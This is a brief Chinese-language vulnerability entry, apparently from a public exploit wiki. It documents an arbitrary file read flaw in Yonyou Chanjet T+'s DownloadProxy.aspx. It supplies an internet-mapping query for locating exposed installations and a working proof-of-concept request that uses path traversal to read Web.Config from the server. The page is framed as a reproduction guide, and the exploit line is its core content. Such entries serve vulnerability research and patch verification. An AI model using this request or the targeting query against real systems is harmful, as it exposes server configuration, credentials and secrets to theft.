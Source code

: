 # 用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

## 漏洞描述

用友 畅捷通T+ DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-20220903111940237.png)

验证POC

```php
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

![img](/assets/PeiQi-Wiki/img/1662017739558-82948854-e961-4934-8ac2-c29e660277b2.png)